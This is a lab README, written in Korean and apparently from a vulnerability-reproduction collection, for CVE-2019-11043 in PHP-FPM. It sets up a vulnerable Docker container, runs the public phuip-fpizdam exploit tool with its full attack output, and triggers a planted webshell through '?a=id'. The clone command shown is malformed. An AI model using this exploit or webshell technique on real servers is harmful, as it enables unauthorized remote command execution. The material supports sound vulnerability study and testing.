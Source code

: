 # PHP-FPM Remote Command Execution (CVE-2019-11043)

References:

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## Environment setup

다음 명령을 통해 취약한 PHP 서버를 시작합니다.:

```
docker compose up -d
```

완료된 후, `http://your-ip:8080/index.php`에서 기본 페이지를 볼 수 있습니다.

## Vulnerability Reproduce

이 도구를 이용해서 취약점을 재현합니다. <https://github.com/neex/phuip-fpizdam>:

```
https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get github.com/neex/phuip-fpizdam
```

```
$ go run . "http://your-ip:8080/index.php"
2024/04/30 21:42:15 Base status code is 200
2024/04/30 21:42:15 Status code 502 for qsl=1800, adding as a candidate
2024/04/30 21:42:15 The target is probably vulnerable. Possible QSLs: [1790 1795 1800]
2024/04/30 21:42:15 Attack params found: --qsl 1795 --pisos 40 --skip-detect
2024/04/30 21:42:15 Trying to set "session.auto_start=0"...
2024/04/30 21:42:15 Detect() returned attack params: --qsl 1795 --pisos 40 --skip-detect <-- REMEMBER THIS
2024/04/30 21:42:15 Performing attack using php.ini settings...
2024/04/30 21:42:15 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2024/04/30 21:42:15 Trying to cleanup /tmp/a...
2024/04/30 21:42:15 Done!
```

성공적으로 실행이 되면 아래와 같이 출력됩니다.:

![](1.png)

PHP-FPM의 백그라운드에 webshell이 작성되어 있으며, RCE를 트리거하기 위해 http://your-ip:8080/index.php?a=id 를 입력합니다.

![](2.png)
